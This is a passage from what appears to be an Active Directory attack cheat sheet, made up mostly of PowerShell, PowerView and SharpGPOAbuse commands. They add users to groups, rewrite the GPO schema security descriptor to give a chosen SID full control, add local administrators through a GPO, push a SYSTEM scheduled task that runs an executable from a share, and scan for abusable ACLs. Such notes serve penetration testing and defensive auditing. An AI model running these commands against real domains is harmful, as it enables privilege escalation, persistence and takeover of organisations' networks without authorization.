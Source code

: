 ````
#### Check new groups
```
Get-ADGroup -Properties * | Select-Object samaccountname, whencreated | Sort-Object whencreated
```

#### Check if user has ACL of new group
- With PowerView
```
Get-DomainGroup <GROUP> | Get-DomainObjectAcl | ? {$_.SecurityIdentifier -eq "<SID USER>"}
```

#### Add members to new group
```
Add-ADGroupMember <GROUP> -Members <USER>
```

### Modify schema - GPO
```
Set-ADObject -Identity "CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=<DOMAIN>,DC=local" -Replace @{defaultSecurityDescriptor = 'D:(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;DA)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;SY)(A;;RPLCLORC;;;AU)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;<SID>)';} -Verbose
```

#### Add local admin abuse
- https://github.com/FSecureLABS/SharpGPOAbuse
```
./ShapGPOAbuse.exe --AddLocalAdmin --GPOName <GPONAME> --UserAccount <USERNAME>
gpupdate /force #On the target machine if you got normal access already
net localgroup administrators
```

#### Create scheduled task
- https://github.com/FSecureLABS/SharpGPOAbuse
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c <SHARE>\<EXECUTABLE FILE>" --GPOName "<GPO>"
```

### Computers with high privileges
- Computerobjects part of a high privileged group have the same permissions as users part of the group.
- Might be able to Relay the privileges of the computeraccount in combination with the printerbug!

#### Enumerate computers part of high privileged groups
```
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse -ErrorAction Silentlycontinue -WarningAction Silentlycontinue | Where-Object -Property MemberObjectClass -Match computer | Select-Object MemberName
```

## Access Control List
- It is possible to abuse permissions (ACL's)
- `ObjectDN` = The object the permissions apply to
- `ActiveDirectoryRight` == Permissions
- `IdentityReferenceName` == Object who has the permissions
- Edge cases https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html

#### Scan for ACL permissions
```
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN>
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN> | Select-Object ObjectDN, ActiveDirectoryRights, IdentityreferenceName
```
- Check every owned user in bloodhoud

#### Aclight2 scan
````
